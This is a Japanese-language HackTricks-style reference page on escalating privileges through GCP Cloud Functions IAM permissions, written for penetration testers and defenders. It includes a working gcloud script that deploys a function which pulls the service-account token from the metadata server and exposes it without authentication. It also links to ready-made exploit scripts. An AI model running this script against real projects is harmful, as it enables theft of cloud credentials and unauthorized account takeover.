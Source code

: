 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functionsに関する詳細情報:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**任意の（悪意のある）コードを持つ新しいCloud Functionを作成し、それにService Accountを割り当てることができます**。次に、メタデータからService Accountトークンを漏洩させて、その権限を昇格させます。\
関数をトリガーするためのいくつかの権限が必要になる場合があります。

この方法のためのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)と[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)にあり、事前構築された.zipファイルは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)にあります。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**関数のコードを変更し、トークンを抽出する目的で関連付けられたサービスアカウントを変更することができます**。

{% hint style="danger" %}
Cloud Functionsをデプロイするには、デフォルトのコンピュートサービスアカウントまたはイメージを構築するために使用されるサービスアカウントに対するactAs権限も必要です。
{% endhint %}

追加の権限として、バージョン1のcloudfunctionsに対する`.call`権限や、関数をトリガーするための役割`role/run.invoker`が必要になる場合があります。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
`Permission 'run.services.setIamPolicy' denied on resource...`というエラーが表示される場合は、`--allow-unauthenticated`パラメータを使用しており、十分な権限がないためです。
{% endhint %}

このメソッドのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py)で見つけることができます。

### `cloudfunctions.functions.sourceCodeSet`

この権限を使用すると、**関数バケットにファイルをアップロードするための署名付きURLを取得できます（ただし、関数のコードは変更されず、更新する必要があります）** 

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

攻撃者の視点からこの権限がどれほど有用かはあまり確信が持てませんが、知っておくのは良いことです。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

前述の**`.update`**または**`.create`**のいずれかの権限を自分に与えて昇格します。

### `cloudfunctions.functions.update`

**`cloudfunctions`**の権限だけでは、**`iam.serviceAccounts.actAs`**がないと関数を更新できないため、これは有効な昇格ではありません。

### バケットに対する読み取りおよび書き込みアクセス

バケットに対する読み取りおよび書き込みアクセスがある場合、コードの変更を監視でき、バケット内で**更新が発生したときに新しいコードを自分のコードに更新することができ**、新しいバージョンのCloud Functionは提出されたバックドアコードで実行されます。

攻撃の詳細については、以下を確認できます：

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

ただし、これを使用して第三者のCloud Functionsを事前に侵害することはできません。なぜなら、アカウント内にバケットを作成し、外部プロジェクトが書き込めるように公開権限を与えると、次のエラーが発生するからです：

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
ただし、これはDoS攻撃に使用される可能性があります。
{% endhint %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

